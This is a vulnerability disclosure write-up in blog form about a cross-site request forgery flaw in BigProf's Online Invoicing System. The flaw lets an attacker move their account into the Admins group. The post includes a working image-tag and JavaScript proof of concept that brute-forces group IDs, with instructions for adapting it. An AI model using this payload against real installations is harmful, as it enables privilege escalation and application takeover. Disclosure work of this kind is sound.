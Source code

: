 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System Application Takeover via CSRF
tags: [CVE-Writeup, CSRF]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Cross Site Request Forgery
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System offers a functionality which allows an administrator to move the records of members across groups. The endpoint which is responsible for moving members across groups lacks CSRF protection thus resulting in an attacker being able to escalate their privileges to Administrator and effectively taking over the application by having the application's admin browse to an attacker controlled page.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

When browsing to `admin/pageTransferOwnership.php` with a user that has administrative privileges, the "Batch Transer of Ownership" functionality will be made available:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/batch.png)

As stated by the application, this functionality allows an administrator to:
> The batch transfer wizard allows you to transfer data records of one or all members of a group (the source group) to a member of another group (the destination member of the destination group)

After selecting the required dropdowns, an example of a successful request will look as follows:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

Let's break down the above request to make it easier to understand:

~~~
sourceGroupID = The ID of the group you would like to be moving records from. 
sourceMemberID = The username of the member you would like to move records for. Using -1 means that all user records will be moved.
destinationGroupID = The ID of the group you would like to move records to.
moveMembers = If 1 that means it will move the member and their data to the group and not overrwrite any existing records in the destination group.
~~~

Something else you might notice in the request is that there appears to be no CSRF protecton such is in the form of a token (whether it be a parameter or cookie). Furthermore looking closely, we notice that the application does not utilize `Same Site Cookies` meaning this this endpoint is most likely vulnerable to Cross-Site Request Forgery.

Lets quickly browse to the responsible code to confirm there are no hidden protections:



However as shown in the request above in order for succesful exploitation to occur, an attacker would need to know the values of the following parameters:

~~~
sourceGroupID
destinationGroupID
~~~

After enumerating the application, it appears there is no concrete way for an attacker to retrieve the Group ID in which they are part of. Furthermore, it appears there is no way for the attacker to retrieve the Group ID of the Administrator's group either. While normally this could be seen as the nail in the coffin, there is a way around this.

An astute attacker would observe that on a fresh install, there are two groups which are created automatically with the following ID's:

~~~
Anonymous - 1
Admins - 2
~~~

Meaning that anytime a new custom group will be created, it will start from ID 3 and increment from there. Finally, the application does not allow the administrator to delete the pre-created groups meaning the ID of the Admin group will always result in 2.

With this in mind, an attacker is now aware of the `destinationGroupID` and will only need the `sourceGroupID` in which they are apart of in order to transfer their account to the Admin's group therefore granting themselves administrator privileges.

As mentioned earlier, this value will start from 3 and increment based on the number of custom groups the application has.

Since the endpoint is using a `GET` request to pass the information to the server, the following HTML snippet can be used:

~~~javascript
<img src="http://localhost/admin/pageTransferOwnership.php?sourceGroupID=3&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1"></img>
~~~

Upon the application's administrator visiting a page which contains the above HTML, their browser will try to load the image by requesting the URL above. However instead of loading the image, the browser will follow the URL and trigger the vulnerability. The proof of concept above will attempt to move the records of a member whose username attacker from Group 3 to Group 2.

As mentioned before, the attacker is unaware of the group in which their user lives in. Using the snippet above is effectively playing Russian Roulette as the attacker will have to keep guessing their group. In order to have a good chance of this working, an attacker will need to be extremely lucky.

However instead of relying on luck, the attacker can utilize Javascript to leverage the following proof of concept:

~~~javascript
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

The above Javascript snippet will result in 10 iterations (3 -> 13) with each iteration creating a new image tag which sets the value of the `sourceGroupId` parameter to the current value of `i` in the iteration. In the end this will result in 10 image tags with each having a different value for the `sourceGroupID` parameter. In this example, 3-13 was used however in a real life scenario an attacker can create as many iterations as they would like. The reason the range starts at 3 is because it was confirmed earlier that any new custom groups start at that index.

Upon the application's administrator visiting this proof of concept, we can confirm that the requests are succesfully executing by taking a look at the browser's DevTools Network Tab:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

As such, an attacker is able to host a specially crafted proof of concept that upon being visted by the application's administrator will move the attacker's user into the Admin's user group therefore effectively granting the attacker administrative privileges and allowing them to takeover the application.

# Proof of Concept

~~~html
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

**Replace above**:
- Range to suit your needs
- URL pointing to the vulnerable application
- Value of sourceMemberID with your username

